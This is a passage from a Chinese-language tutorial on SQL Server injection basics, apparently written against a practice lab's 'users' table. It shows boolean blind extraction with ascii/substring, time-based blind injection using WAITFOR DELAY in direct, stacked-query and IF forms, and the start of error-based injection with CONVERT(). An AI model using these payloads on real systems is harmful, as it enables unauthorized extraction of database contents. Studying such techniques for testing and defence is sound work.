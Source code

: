 ```sql
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_28_AiaYDOmr.png)
求当前数据库user表username字段第一个值的ascii码值
```sql
select * from users where id = '1' and 68 = ascii(substring((select top 1 username from users),1,1))--+
-- 依次求解，使用top 1 ... where username/id... not in('Dumb')...
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_29_S6bvW1gd.png)
### 时间盲注
延时函数 `waitfor delay`
WAITFOR是SQL Server中Transact-SQL提供的⼀个流程控制语句。它的作⽤就是等待特定时间，然后继续执⾏后 续的语句。它包含⼀个参数DELAY，⽤来指定等待的时间。
如果将该语句成功注⼊后，会造成数据库返回记录和 Web请求也会响应延迟特定的时间。由于该语句不涉及条件判断等情况，所以容易注⼊成功。
语法：
```sql
WAITFOR DELAY '0:0:n'
```
示例：
```sql
WAITFOR DELAY '0:0:4' --  表⽰延迟4秒
```
时间盲注通过页面返回的内容的响应时间差异进行条件判断，但是在mssql中，默认可使用堆叠查询，这个也是判断mssql与mysql的区别之一，所以在判断注入点有三种方式，如下：
**直接带入查询**
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_29_Osac5BjL.png)
**堆叠查询判断注入点**
```sql
select * from users where id = '1';waitfor delay '0:0:3'
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_29_ak4mplgX.png)
**if判断注入点**
```sql
select * from users where id = '1' if (1=1) waitfor delay '0:0:4'
select * from users where id = '1' if (1=2) waitfor delay '0:0:4'
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_29_uL78NDZ0.png)
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_30_UorhqpTf.png)
通常使用if语句来查询数据，if语句中判断True,False同布尔注入
## 报错注入
报错注入通常情况下在服务器开启报错信息返回，也就是发生错误时返回报错信息，通过特殊函数的错误使用使其参数被页面输出。
### convert()
CONVERT()函数是把⽇期转换为新数据类型的通⽤函数。
```sql
CONVERT(data_type(length),data_to_be_converted,style)
注释 ：
data_type(length) 转换为⽬标数据类型（带有可选的长度）。
data_to_be_converted 含有需要转换的值。
style 规定⽇期/时间的输出格式。
```
```sql
-- 示例
CONVERT(VARCHAR(19),GETDATE())
CONVERT(VARCHAR(10),GETDATE(),110) 
CONVERT(VARCHAR(11),GETDATE(),106)
CONVERT(VARCHAR(24),GETDATE(),113)
-- 结果
09 22 2021 11:39AM
09-22-2021
22 09 2021
22 09 2021 11:41:19:480
```